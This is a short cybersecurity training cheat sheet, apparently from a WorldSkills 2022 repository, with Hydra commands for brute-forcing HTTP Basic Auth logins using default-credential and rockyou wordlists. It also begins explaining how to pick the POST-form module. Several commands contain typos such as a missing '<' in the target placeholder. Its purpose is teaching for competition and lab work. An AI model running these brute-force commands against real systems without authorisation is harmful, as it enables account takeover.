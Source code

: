 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method						|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module <font color=lightgreen> **http[s]-post-form**</font> 

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

